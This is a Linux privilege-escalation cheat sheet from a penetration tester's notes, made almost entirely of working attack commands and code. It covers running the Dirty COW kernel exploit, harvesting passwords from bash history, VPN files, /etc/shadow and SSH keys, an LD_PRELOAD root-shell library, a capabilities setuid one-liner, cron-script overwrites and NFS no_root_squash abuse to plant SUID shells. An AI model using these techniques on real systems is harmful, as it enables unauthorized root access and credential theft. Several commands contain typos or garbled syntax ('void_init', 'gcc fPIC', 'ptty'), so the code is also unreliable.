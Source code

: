 # Linux Privilege Escalation

# [Back To Command-Center](../Command-Center%2067dcab8dad014156bed16a9e6953166c.md)

## //cheat-sheet

⚠️ **IMPORTANT NOTE:** This is not a tutorial write-up on how to use the different tools and commands, these are quick notes on how to privesc in Linux.

**For the full tutorial and lectures it is highly recommended to take the LINUX PRIVESC course from [TCM-SECURITY](https://academy.tcm-sec.com/).**

### Resources:

- **[g0tm1lk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)**
- **[hacktricks](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)**
- **[sushant747 OSCP-guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)**

### Automated privesc tools:

- **[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**
- **[linenum](https://github.com/rebootuser/LinEnum)**
- **[linenumsuggester](https://github.com/mzet-/linux-exploit-suggester)**
- **[linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)**

### Escalation path: Kernel exploits

### Kernel exploits are very straight forward. We hunt down what version of kernel is running on the target system and then we exploit it.

- **[resource: lucyoa/kernerl-exploit](https://github.com/lucyoa/kernel-exploits)**
- chek kernel version on target system: `uname -a`
- compile dirty c0w.c first `gcc -phthread c0w.c -o cow`
- use dirty c0w on target machine `./cow`
- c0w output: ***Backing up /usr/bin/passwd to /tmp/bak***
- type in: `passwd` and you're **root**

### Escalation path: Password and file permissions

### Escalation via stored passwords:

- see history if possible, if someone connected to a mysql database with their credentials for example it will show up in there, use command `history`
- cat out the `cat .bash_history` as well
- you can also try using the ***history*** command with ***grep*** to grep for the password: `histroy | grep passwd`
- `ps aux` to see processes
- `w` to see who's logged in
- when asked for a password on the system if you see asterisks while typing out the password in terminal that's a very specific version of ***sudo***, that's usually the **.pwfeedback** is being set. **Any sudo before 1.8.6**. Usually Linux Mint and Elementary OS, get sudo version: `sudo -v` **env_reset.pwfeedback** is being reset.
- ***cat*** out the ****.ovpn*** file to check for credentials or references: `cat myvpn.ovpn` shows that the password is coming from the ***/etc/openvpn/auth.txt*** so we can just cat that file out for credentials

### Escalation via weak file permissions:

- `ls -la /etc/passwd` and `ls -la /etc/shadow` if you can access both and cat them out we can use ***john*** or other similar tools to crack those passwords
- passwd file doesn't have any passwords in it (back in the day it was) , it helps us to ID the users
- **x** is a placeholder in it for the hash which contains the password from the shadow file
- if we can modify /etc/passwd the x in the file we could become root, like delete it, if there's no placeholder we can just switch to root user without a password or change it to 0
- we can change the hash to one where we know the password and become root like that

### Escalation via ssh keys:

- `find / -name authorized_keys 2>/dev/null`
- `find / -name id_rsa 2>/dev/null`
- once the key was found copy it to your machine into a file and don't forget to `chmod 600 id_rsa` to be able to use it to log in via ssh
- `ssh -i id_rsa root@<target IP>`

### Escalation path: sudo

### Preloading

- it's a feature of LD (dynamic linker)
- we're going to preload a user library by running sudo with ID preload and execute our own library before anything else
- `nano shell.c`
- `#include <stdio.h>`
- `#include <sys/types.h>`
- `#include <stdlib.h>`
- `void_init() {`
- `unsetenv("LD_PRELOAD");`
- `setgid(0);`
- `setuid(0);`
- `system("/bin/bash");`
- `}`
- don't forget to include tabs with lines: unsetenv, segid, setuid, system
- compile it: `gcc fPIC -shared -o shell.so shell.co -nostartfile`
- ***fPIC is position independent code***, regardless of what your shell address is, it will work
- need full path to ***shell.so***
- run it: `sudo LD_PRELOAD=/home/usr/shell.so apache2`

### Escalation path: SUID

- to hunt it down: `find / -type f -perm -04000 -ls 2>/dev/null`

### Shared object injection:

- strace is diagnosing, debugging Linux for tampering and monitoring
- `strace /usr/local/bin/suid-so 2>&1`
- grep the output `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`

### Symbolic link

- symbolic link: any file that contains a reference to another file or directory in a form of an absolute or relative path
- create a function and export it: `function /usr/sbin/service() {cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
- export service: `export -f /usr/sbin/service`
- compile it and change path: `gcc /tmp/service/.c -o /tmp/service` and `export PATH=/tmp:$PATH`

### Escalation path: capabilities

- searching for capabilities: `getcap -r / 2>/dev/null`
- found (ex) : `/usr/bin/python2.6 = cap_setuid+ep`
- execute: `/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

### Escalation path: scheduled tasks

- **m h dom mon dow user command** /month, hour, day of month, month, day of week, user, command
- `17 * * *` every 17th minutes execute a command for a user
- `* * * root /user/local/bin/compress.sh`
- `* * * root overwrite.sh`
- then
- `systemctl list-timers --all`
- add to file that root executes via crontab: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`
- wait for crontab to kick in and run: `/tmp/bash -p` and we're root!
- ***note: The -p option in bash and ksh is related to security. It is used to prevent the shell reading user-controlled files.***
- **Another way of overwriting the crontab file is:**
- `cat /usr/local/bin/overwrite.sh`
- `nano /usr/local/bin/overwrite.sh`
- `#!/bin/bash`
- `echo date > /tmp/useless`
- `cp /bin/bash /tmp/bash; chmod +s /tmp/bash`
- now we have overwritten the ***overwrite.sh*** file, now run: `/tmp/bash -p`
- `whoami`
- **root!**

### Escalation via NFS root squashing

- on target machine `cat /etc/exports` shows no root squash but what does this mean? /tmp folder can be mounted from attacking machine!
- `showmount -e <target IP>` results will show up
- `/tm *`
- make a folder on your machine `mkdir /tmp/mountme`
- and mount it: `mount -o rw vers=2 <target IP>:/tmp /tmp/mountme`
- from kali: `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c`
- compile it: `gcc /tmp/mountme/x.c -o /tmp/mountme/x`
- chande mod: `chmod +x /tmp/mountme/x`
- now cd over to /tmp on target machine and execute `./x`
- we're root!

### Upgrade your shell on target machine

- `python 'import pty;pty.spawn("/bin/bash")'`
- `export TERM=xterm`
- background your shell with **CTRL+Z**
- `ptty raw -echo; fg`